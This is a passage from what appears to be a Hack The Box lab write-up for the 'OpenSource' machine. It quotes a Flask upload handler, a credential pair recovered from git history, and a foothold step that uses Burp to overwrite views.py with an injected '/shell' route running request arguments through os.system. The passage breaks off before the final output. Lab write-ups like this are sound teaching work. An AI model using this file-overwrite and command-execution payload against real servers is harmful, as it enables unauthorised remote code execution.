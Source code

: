 We can see a pair of credentials: **dev01:Soulless_Developer#2022**. But they are not use for SSH. This commit change the **views.py** file, if we checked it:

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')

@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

We see that is using **flask** and **templates**. As well as some path, like **uploads**.

# Foothold

We can try to manipulate the upload function and overwriting the **views.py** file. Go `http://10.10.11.164/upcloud` and upload a file, but intercept the request with burp. We can see that the web is uploading the file as:

![Untitled](/assets/img/hackthebox/labs/opensource/Untitled.png)

We can change this into our reverse shell, using the following content:

```python
@app.route('/shell')
def cmd():
    return os.system(request.args.get('cmd'))
```

This should be the final output:
